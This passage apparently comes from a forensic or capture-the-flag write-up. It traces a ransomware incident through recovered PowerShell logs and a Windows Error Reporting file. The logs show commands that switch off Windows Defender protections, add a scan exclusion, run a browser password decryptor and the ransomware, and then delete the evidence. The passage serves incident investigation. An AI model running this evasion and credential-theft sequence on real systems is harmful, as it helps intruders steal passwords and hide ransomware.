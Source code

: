 ```bash
ScriptBlock: Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
ScriptBlock: Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
ScriptBlock: Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
ScriptBlock: &"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
ScriptBlock: ./browser-pw-decrypt.exe
ScriptBlock: ./browser-pw-decrypt.exe all
ScriptBlock: & "./intel.exe"
ScriptBlock: cd report
ScriptBlock: dir
ScriptBlock: cd ..
ScriptBlock: rm ./*.exe -force
ScriptBlock: dir
ScriptBlock: rm intel.zip -force
ScriptBlock: dir
```

So the ransomware is `intel.exe`. A quick search for `*intel*` gives us the [`Windows Error Reporting`](https://learn.microsoft.com/en-us/windows/win32/wer/about-wer).

```ini
Version=1
EventType=CLR20r3
EventTime=133541169195413692
ReportType=2
Consent=1
UploadTime=133541169217978399
ReportStatus=268435456
ReportIdentifier=56c90743-7d06-4977-8894-f327baef59ea
IntegratorReportIdentifier=188225e0-a5cd-463c-8621-eaf6bec63673
Wow64Host=34404
NsAppName=intel.exe
OriginalFilename=Encrypter.exe
AppSessionGuid=00001c44-0001-000f-8b94-4e5dfc6eda01
TargetAppId=W:0006fe40cd17ba527db0db246f4f9ea80aff00000000!0000497662b51727caf4e48646f116ef77e1e6199e23!intel.exe
TargetAppVer=2051//05//06:18:39:09!0!intel.exe
BootId=4294967295
TargetAsId=537
IsFatal=1
EtwNonCollectReason=1
Response.BucketId=005e4c1c70c810bc6e264d669669c1a7
Response.BucketTable=5
Response.LegacyBucketId=2172508973258359207
Response.type=4
Sig[0].Name=Problem Signature 01
Sig[0].Value=intel.exe
...
```
